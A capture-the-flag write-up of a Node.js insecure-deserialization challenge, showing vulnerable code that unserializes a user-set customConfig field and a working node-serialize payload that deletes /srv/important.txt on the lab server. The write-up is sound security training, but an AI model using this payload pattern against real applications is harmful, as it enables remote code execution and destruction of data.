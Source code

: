 ```yaml
---
title: "Node remote code execution bug"
layout: page
---
```


- JavaScript
- Web Security
- Insecure deserialization
- Node.js
- Easy

Writeup by `Sasszem`

# Description and resources
## Mission brief
Even if you have secured your app using all the techniques you've learned so far your possible attackers might still have an ace up their sleeve. Quite literally; this vulnerability is called arbitrary code execution and it is the mother of all vulnerabilities.

With this security problem secrets can be leaked, files can be deleted, identifying information can be sent to our attackers in email and this is just the tip of the iceberg.

## Instructions
Our application just came out of BETA and there is still some leftover code in it that developers used for altering the runtime configuration of the app.
Although this functionality was removed, someone left parts of it in the app.

If you take a look at the extractUser function you might notice that there is a field we deserialize from the user: `customConfig`.

```javascript
export const extractUser = async (req, res, next) => {
    const token = req.session.token;
    let payload;
    let user;
    try {
        payload = await verifyToken(token);
        user = await User.findById(payload.id)
            .lean()
            .exec();
        if (user) {
            serialize.unserialize(user.customConfig);
            // ...
        }
    } catch (e) {
        // ...
    }
    if (user) {
        req.user = user;
    } else {
        req.user = ANON_USER;
    }
    next();
};
```

The problem here is that the library which we're using to perform the deserialization has a feature for serializing and deserializing functions in Javascript objects as well. It will happily accept any serialized functions we throw at it as well.

## Your task
Your task is to delete a file `/srv/important.txt` by exploiting this vulnerability. You can log in as `john@doe.com` with the password `SuperSecret33`.

## Recommended Readings
[Exploiting Node.js deserialization bug](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

---

# Writeup

Well, it was not hard. After logging in, we can see a "Profile" page where we can set the `customConfig` to any text.

After playing around a bit with the example from the linked article, it was trivial to craft a payload:

```js
var y = {
 rce : function(){
 require('fs').unlinkSync("/srv/important.txt");
 },
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

Produced: `{"rce":"_$$ND_FUNC$$_function(){\n require("fs").unlinkSync(\"/srv/important.txt\");\n }"}`

And all I had to do is to add a function call: `{"rce":"_$$ND_FUNC$$_function(){\n require("fs").unlinkSync(\"/srv/important.txt\");\n }()"}`

Set my `customConfig` to this, save, log out and it's done.